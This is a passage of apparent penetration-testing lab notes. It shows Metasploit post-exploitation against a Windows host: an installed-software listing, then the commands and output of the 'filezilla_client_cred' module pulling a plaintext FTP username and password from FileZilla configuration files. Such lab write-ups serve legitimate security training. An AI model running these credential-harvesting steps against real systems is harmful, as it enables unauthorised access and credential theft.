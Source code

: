 ```
 Microsoft Visual C++ 2019 X86 Additional Runtime - 14.29.30040      14.29.30040
 Microsoft Visual C++ 2019 X86 Minimum Runtime - 14.29.30040         14.29.30040
 Nmap 7.92                                                           7.92
 Npcap                                                               1.50
 Python 3.10.1 Add to Path (64-bit)                                  3.10.1150.0
 Python 3.10.1 Core Interpreter (64-bit debug)                       3.10.1150.0
 Python 3.10.1 Core Interpreter (64-bit symbols)                     3.10.1150.0
 Python 3.10.1 Core Interpreter (64-bit)                             3.10.1150.0
 Python 3.10.1 Development Libraries (64-bit debug)                  3.10.1150.0
 Python 3.10.1 Development Libraries (64-bit)                        3.10.1150.0
 Python 3.10.1 Documentation (64-bit)                                3.10.1150.0
 Python 3.10.1 Executables (64-bit debug)                            3.10.1150.0
 Python 3.10.1 Executables (64-bit symbols)                          3.10.1150.0
 Python 3.10.1 Executables (64-bit)                                  3.10.1150.0
 Python 3.10.1 Standard Library (64-bit debug)                       3.10.1150.0
 Python 3.10.1 Standard Library (64-bit symbols)                     3.10.1150.0
 Python 3.10.1 Standard Library (64-bit)                             3.10.1150.0
 Python 3.10.1 Tcl/Tk Support (64-bit debug)                         3.10.1150.0
 Python 3.10.1 Tcl/Tk Support (64-bit symbols)                       3.10.1150.0
 Python 3.10.1 Tcl/Tk Support (64-bit)                               3.10.1150.0
 Python 3.10.1 Test Suite (64-bit debug)                             3.10.1150.0
 Python 3.10.1 Test Suite (64-bit symbols)                           3.10.1150.0
 Python 3.10.1 Test Suite (64-bit)                                   3.10.1150.0
 Python 3.10.1 Utility Scripts (64-bit)                              3.10.1150.0
 Python 3.10.1 pip Bootstrap (64-bit)                                3.10.1150.0
 Python Launcher                                                     3.10.7644.0
 aws-cfn-bootstrap                                                   2.0.6
 aws-cfn-bootstrap                                                   2.0.6

[+] Results stored in: /root/.msf4/loot/20240208201819_default_10.4.29.162_host.application_875414.txt
```

`background`, `search filezilla`, `sessions -i 1`, `run post/multi/gather/filezilla_client_cred`:
```
[*] Checking for Filezilla directory in: C:\Users\Administrator\AppData\Roaming
[*] Found C:\Users\Administrator\AppData\Roaming\FileZilla
[*] Reading sitemanager.xml and recentservers.xml files from C:\Users\Administrator\AppData\Roaming\FileZilla
[*] Parsing sitemanager.xml
[*]     Collected the following credentials:
[*]     Server: 10.4.27.111:21
[*]     Protocol: FTP
[*]     Username: admin ←
[*]     Password: FTPStrongPwd ←

[*] Parsing recentservers.xml
[*]     Collected the following credentials:
[*]     Server: 10.4.27.111:21
[*]     Protocol: FTP
[*]     Username: admin
[*]     Password: FTPStrongPwd
```
